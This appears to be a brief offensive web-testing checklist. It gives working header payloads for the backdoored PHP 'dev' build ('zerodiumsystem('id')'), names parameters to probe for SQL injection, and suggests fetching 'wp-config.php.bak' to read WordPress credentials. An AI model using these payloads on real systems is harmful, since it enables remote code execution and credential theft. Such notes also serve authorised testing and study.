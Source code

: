 1) If the Php version is `PHP-dev` then we can try for RCE & SQli.
```
User-Agentt: zerodiumsleep(5); User-Agentt: zerodiumsystem('id');
```
2) look for endpoint like .php and test parameter for `id` and `list[select]` parameters for sqli
3) if `wp-config.php` -> 403 forbidden then `wp-config.php.bak` -> 200Ok